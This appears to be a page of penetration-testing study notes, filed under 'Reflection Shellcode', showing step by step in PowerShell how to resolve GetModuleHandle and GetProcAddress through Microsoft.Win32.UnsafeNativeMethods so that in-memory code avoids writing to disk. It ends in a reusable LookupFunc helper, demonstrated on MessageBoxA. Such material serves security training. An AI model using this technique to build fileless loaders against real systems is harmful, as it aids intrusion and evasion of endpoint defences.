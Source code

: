 ```yaml
---
title: Unsafe Native Methods
layout: default
parent: Reflection Shellcode
grand_parent: Client Side Execution
nav_order: 1
---
```


1. To avoid writing to disk, we need to perform dynamic lookup of function address instead of `Add-Type` and `DllImport`. 
2. This can be achieved by using Win32 API `GetModuleHandle` and `GetProcAddress`.
3. Since we cannot use them directly to avoid writing to disk, need to find assembly that we can use to invoke these API.

    ```powershell
    $Assemblies = [AppDomain]::CurrentDomain.GetAssemblies()
    $Assemblies |
      ForEach-Object {
        $_.GetTypes()|
          ForEach-Object {
            $_ | Get-Member -Static| Where-Object {
              $_.TypeName.Contains('Unsafe')
            }
        } 2> $null
      }
    ```

4. Next, perform a filter and search for the location that these APIs are located by adding `$_.Location`. Based on the results, they are `static` and the typename is `Microsoft.Win32.UnsafeNativeMethods` (Use `Contains` instead of `Equals` to avoid error).

    ```powershell
    $Assemblies = [AppDomain]::CurrentDomain.GetAssemblies()
    $Assemblies |
      ForEach-Object {
        $_.Location
        $_.GetTypes()|
          ForEach-Object {
            $_ | Get-Member -Static| Where-Object {
              $_.TypeName.Contains('Microsoft.Win32.UnsafeNativeMethods')
            }
        } 2> $null
      }
    ```

5. After we identify that it is coming from System.dll, we can use the following to search for the required API (in this case `GetModuleHandle`).

    ```powershell
    $systemdll = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') })
    $unsafeObj = $systemdll.GetType('Microsoft.Win32.UnsafeNativeMethods')
    $GetModuleHandle = $unsafeObj.GetMethod('GetModuleHandle')
    ```

6. Then we can use the following search for the DLL base address (for example user32.dll):

    ```powershell
    $GetModuleHandle.Invoke($null, @("user32.dll"))
    ```

7. If you try to do a `$GetProcAddress = $unsafeObj.GetMethod('GetProcAddress')` you will get an error "Ambiguous match found.". Instead we need to do this for multiple occurence (we are using tmp[0] which is the first entry):

    ```powershell
    $user32 = $GetModuleHandle.Invoke($null, @("user32.dll"))
    $tmp=@()
    $unsafeObj.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
    $GetProcAddress = $tmp[0]
    $GetProcAddress.Invoke($null, @($user32, "MessageBoxA"))
    ```

8. Finally to reuse this multiple times, wrap them in function:

    ```powershell
    function LookupFunc {
      Param ($moduleName, $functionName)
      $assem = ([AppDomain]::CurrentDomain.GetAssemblies() |
      Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].
        Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
      $tmp=@()
      $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
      return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null,
    @($moduleName)), $functionName))
    }
    ```

9. To use the function above, do this:

    ```powershell
    LookupFunc "user32.dll" "MessageBoxA"
    ```
